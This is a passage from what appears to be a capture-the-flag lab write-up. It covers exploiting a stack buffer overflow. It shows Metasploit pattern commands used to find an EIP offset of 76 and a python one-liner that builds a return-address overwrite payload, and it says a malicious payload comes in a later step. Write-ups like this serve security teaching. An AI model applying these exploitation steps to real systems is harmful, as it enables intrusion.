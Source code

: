 The following indicated that we have successfully overflowed the buffer. As for the next step, we are going to find the EIP offset.

![success](/assets/images/THM/2020-08-14-plathora/16.png)

#### Step 2: Finding EIP offset

To identify the EIP offset, we need to create a pattern. On your own machine, enter the following command to create the pattern.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

![pattern](/assets/images/THM/2020-08-14-plathora/17.png)

After that, run the program with gdb again. Copy and paste the pattern after the gdb prompt for input.

![copy](/assets/images/THM/2020-08-14-plathora/18.png)

![the offset](/assets/images/THM/2020-08-14-plathora/19.png)

Copy the address as we going to calculate the offset with the following command.

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
```

![calculate offset](/assets/images/THM/2020-08-14-plathora/20.png)

We just calculated the EIP offset which is 76. The number means we need 76 'A' in order to hijack the return address. This return address is important as it going to redirect to a malicious payload which will be explained in the later step. To verify our finding is valid, we create the following payload by setting the return address 0xffffddaa.

```
python -c "print('A'*76 + '\xaa\xdd\xff\xff')" > /home/zayotic/eip.in
```
